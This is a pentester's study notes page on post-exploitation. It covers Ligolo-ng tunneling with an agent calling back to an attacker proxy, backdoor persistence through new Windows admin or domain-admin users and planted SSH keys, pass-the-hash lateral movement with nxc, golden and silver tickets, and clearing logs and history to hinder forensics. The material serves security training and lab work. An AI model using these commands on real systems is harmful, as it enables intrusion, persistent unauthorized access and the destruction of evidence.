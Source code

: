 # Final step - Post-exploitation

<div class="row row-cols-lg-2"><div>

Post-exploitation ✈️ is the last step of the pentester activities. Once we got access to the target, and escalated to administrator, we are trying to **maintain** and **expand** our access to other machines.

Pivoting to another victim is called **lateral movement** 🔓. Target high-value hosts such as SQL or Microsoft Exchange servers.
</div><div>

**Common activities** 🤖

* 🚪 Leave a backdoor (persistence)
* 🙊 Deface the public website
* 🕸️ Redirect users to a malicious website/server
* 💰 Stealing data <small>(files, photos, emails, source code...)</small>
* 🔑 Stealing credentials <small>(authentication tokens, password, keepass)</small>
* 🌋 Mess with timestamp/... to complicate forensics
* 🧹 Cleanup logs
* ⌨️ installing keyloggers
* 🧨 Edit software configurations/users permissions
* 🐲 Reset user passwords to access their account
</div></div>

<hr class="sep-both">

## Pivoting To Another Host ✈️

<div class="row row-cols-lg-2"><div>

#### Basic Pivoting Overview

[![pivoting_tunneling_port_forwarding](../../_badges/htb/pivoting_tunneling_port_forwarding.svg)](https://academy.hackthebox.com/course/preview/pivoting-tunneling-and-port-forwarding)

...
</div><div>

#### Ligolo-ng Tunneling

[Ligolo-ng](https://github.com/Nicocha30/ligolo-ng) <small>(2.1k ⭐)</small> is a simple and powerful fork of [ligolo](https://github.com/sysdream/ligolo) <small>(1.6k ⭐)</small>. On our host, we need to configure a network interface:

```shell!
$ mkdir -p $HOME/tools/ligolo && cd $HOME/tools/ligolo
$ wget "https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_proxy_0.5.2_linux_amd64.tar.gz"
$ tar xvf ligolo-ng* && rm -rf ligolo-ng*
$ ./proxy -selfcert # in another terminal, run:
$ sudo ip tuntap add user $USER mode tun ligolo
$ sudo ip link set ligolo up
$ sudo ip route add 172.16.5.0/24 dev ligolo # example
$ sudo ip tuntap delete ligolo mode tun # once you're done
```

On the target, download an agent and run it:

```ps
$ wget "https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_agent_0.5.2_windows_amd64.zip"
$ ./agent -connect PROXY_SERVER_IP:11601 -ignore-cert
```

On our proxy server, we can start the tunneling. Now, we can smoothly send traffic to ligolo by defining routes and using them.

```shell!
ligolo> sessions # pick one
ligolo> tunnel_start # ex: ping 172.16.5.5 (see the route add)
```
</div></div>

<hr class="sep-both">

## Windows Post-exploitation

<div class="row row-cols-lg-2"><div>

#### 💰 Stealing data/credentials on Windows 🔑

You can hunt for more [secrets](/cybersecurity/red-team/s4.privesc/index.md#credential-hunting) now that you have more privileges, but the process is the same.

You can refer to [Windows Pentester Notes](/operating-systems/windows/security/index.md#windows-pentester-notes-) to dump the the SAM database, DPAPI keys, Kerberos tickets, etc.

📚 As administrator, use `HKEY_USERS` instead of `HKEY_CURRENT_USER`.

<br>

#### 🚪 Leave a backdoor on Windows

[![adventofcyber2](../../_badges/thm/adventofcyber2/day11.svg)](https://tryhackme.com/room/adventofcyber2)

Create a new local user.

```ps
PS> net user <username> <password> /add
```

Add a user in the local administrator group.

```ps
PS> net localgroup administrators <username> /add
```

Add a user in the domain admins group.

```ps
PS> net group "domain admins" <username> /add /domain
```
</div><div>

#### 🧨 Windows Edit software configurations

[![windows_privilege_escalation](../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

On hosts connected to active directory, folders such as `%APPDATA%` are shared between machines. If we add a program in `USERPROFILE\AppData\Microsoft\Windows\Start Menu\Programs\Startup`, then it will be executed when the users log in.

<br>

#### 🔓 Lateral Movement - Administrator Password Reuse

[![active_directory_enumeration_attacks](../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

We can use [crackmapexec](/cybersecurity/red-team/tools/cracking/auth/cme.md)/[nxc](/cybersecurity/red-team/tools/cracking/auth/nxc.md) to test the administrator hash or password on many hosts.

```ps
$ nxc smb --local-auth CIDR -u administrator -H hash
```

If LAPS was implemented, refer to [LAPS](/operating-systems/windows/security/index.md#microsoft-local-administrator-password-solution-laps).

<br>

#### 🔓 Lateral Movement - Find Interesting Users/Groups

Refer to [LDAP](/operating-systems/networking/protocols/ldap.md).

<br>

#### 🔓 Lateral Movement - Golden/Silver Ticket

[![golden_ticket](../../_badges/hacktricks/windows_hardening/active_directory_methodology/golden_ticket.svg)](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket)
[![silver_ticket](../../_badges/hacktricks/windows_hardening/active_directory_methodology/silver_ticket.svg)](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)

A golden ticket is a forged ticket (TGT) created using the KRBTGT account NTLM password hash, and the information we want <small>(ex: expire in 10 years, associated with account XXX even if disabled/deleted, etc.)</small>.

A silver ticket is a forget ticket (TGS) created using the target service account password hash. It's similar to a golden ticket aside from the fact that it only grants access to one service.
</div></div>

<hr class="sep-both">

## Linux Post-exploitation

<div class="row row-cols-lg-2"><div>

#### 🚪🧨 Create or edit user privileges on Linux

[![linuxfilesystemanalysis](../../_badges/thm/linuxfilesystemanalysis.svg)](https://tryhackme.com/r/room/linuxfilesystemanalysis)

* Add a user with uid 0
* Add your user in special groups <small>(shadow, disk, root)</small>
* Edit `/etc/sudoers`

<br>

#### 🌋 Complicate forensics on Linux

[![linuxfilesystemanalysis](../../_badges/thm/linuxfilesystemanalysis.svg)](https://tryhackme.com/r/room/linuxfilesystemanalysis)

* Remove or edit the shell history file <small>(.bash_history?)</small>
</div><div>

#### 🚪 Leave a backdoor on Linux

[![linuxfilesystemanalysis](../../_badges/thm/linuxfilesystemanalysis.svg)](https://tryhackme.com/r/room/linuxfilesystemanalysis)
[![unbakedpie](../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)
[![teamcw](../../_badges/thm-p/teamcw.svg)](https://tryhackme.com/r/room/teamcw)

* Add your SSH key in `[...]/.ssh/authorized_keys`

```ps
$ ssh-keygen -f mykey
$ mkdir -p $TARGET_USER_HOME/.ssh
$ cp mykey.pub $TARGET_USER_HOME/.ssh/authorized_keys
$ chmod 777 $TARGET_USER_HOME/.ssh/authorized_keys
$ ssh target@0 -i mykey
```

* A rootkit is a set of tools used to maintain a high level of privileges on an host by infecting system files. They can be detected using [chkrootkit](https://www.chkrootkit.org/) <small>(simple checks)</small> or [Rootkit Hunter](https://rkhunter.sourceforge.net/) <small>(use an online database)</small>.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Windows

* See also VSS

Linux

* 🚪 You can give capabilities to a file with `setcap`
* SSH key
</div><div>

* Passive attacks (monitor)
* Active attacks
* Meterpreter
* /.dockerenv (check if we are in a docker)
* KeePass (see exploitation note too?)
* Vulnerable security questions (unencrypted, easy to guess, reset passwords)
* Pass-The-Hash Attack
* rootkit, bootkit
* Credential dumping
* Forensics: clear PowerShell history
</div></div>